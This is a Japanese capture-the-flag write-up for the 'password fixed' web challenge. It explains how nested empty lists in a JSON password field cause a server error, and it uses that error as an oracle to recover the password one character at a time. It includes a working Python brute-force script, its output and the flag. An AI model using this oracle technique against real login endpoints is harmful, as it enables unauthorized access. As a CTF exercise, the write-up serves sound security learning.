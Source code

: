 # password fixed:Web:300pts
```
18,23c18,25
<                       c = "0oO"
<               elif input_pass[i] in "l1I":
<                       c = "l1I"
<               else:
<                       c = input_pass[i]
<               if all([ci != password[i] for ci in c]):
---
>                       if password[i] not in "0oO":
>                               return False
>                       continue
>               if input_pass[i] in "l1I":
>                       if password[i] not in "l1I":
>                               return False
>                       continue
>               if input_pass[i] != password[i]:
```
[http://34.146.80.178:8002/](http://34.146.80.178:8002/)  
[password_fixed.zip](password_fixed.zip)  

# Solution
[password](../password)の修正版らしい。  
先の問題で怪しいと睨んだ部分が無くなっている。  
先ほど作成した[atoz.py](../password/atoz.py)で様々な型を入力して遊んでいると、`[[]]*32`でInternal Server Errorが発生した。  
`["a"]*32`では発生しないため、ローカルで実行してエラーを確認したところ以下のようであった。  
```
~~~
    if input_pass[i] in "0oO":
TypeError: 'in <string>' requires string as left operand, not list
```
空配列に`in`を行おうとして失敗している。  
ここで、`["a",[],[],[],...]`のような場合を考える。  
`"a"`がパスワードでない文字であった場合は`in`での判定に成功してその後の比較で正常終了し、パスワードであった場合次の`[]`を`in`にて判定しようとし異常終了する。  
これによって一文字ずつパスワードを入手できる。  
以下のatozkai.pyで行う。  
```python:atozkai.py
import json
import requests

url = "http://34.146.80.178:8002/flag"

password = [[]]*32

for i in range(32):
    for j in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
        password[i] = j
        data = {"pass":password}
        headers = {"Content-Type":"application/json"}
        response = requests.post(url, data=json.dumps(data), headers=headers)
        if response.status_code != 401:
            if i == 31:
                print("".join(password))
                print(response.text)
            break
```
実行する。  
```bash
$ python atozkai.py
rmWtcmbNUoKPoMECAtYwXKxyoCbbtXNo
nitic_ctf{s0_sh0u1d_va11dat3_un1nt3nd3d_s0lut10n}
```
flagが得られた。  

## nitic_ctf{s0_sh0u1d_va11dat3_un1nt3nd3d_s0lut10n}